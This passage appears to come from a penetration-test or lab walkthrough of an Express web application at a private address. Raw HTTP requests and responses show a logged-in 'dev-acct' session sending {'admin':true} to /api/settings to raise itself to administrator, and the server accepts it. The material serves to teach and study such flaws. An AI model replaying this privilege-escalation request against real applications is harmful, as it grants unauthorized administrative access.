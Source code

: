 ### ui change response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Content-Length: 2
ETag: W/"2-nOO9QiTIwXgNtWtBJezz8kv3SLc"
Date: Tue, 08 Feb 2022 05:35:18 GMT
Connection: close

OK
```

Now let us check if we are able to change the user settings in a way we elevate the account `dev-acct` to an admin account.

### escalate request
```http
POST /api/settings HTTP/1.1
Host: 192.168.135.106
Content-Length: 14
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Content-Type: application/json
Origin: http://192.168.135.106
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close

{"admin":true}
```

### escalate response
```http
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/plain; charset=utf-8
Content-Length: 2
ETag: W/"2-nOO9QiTIwXgNtWtBJezz8kv3SLc"
Date: Tue, 08 Feb 2022 05:35:42 GMT
Connection: close

OK
```

Now we check `dev-acct` user settings again.

### request
```http
GET /api/settings HTTP/1.1
Host: 192.168.135.106
Accept: application/json, text/plain, */*
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Referer: http://192.168.135.106/
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: connect.sid=s%3AMJ1jG892oKVwRi3rIMKyjsDm5uBSY8Vd.ZOktdXW76go01TGeemuMa%2BzSdZYoPowTicSZVFdGyzY
Connection: close
```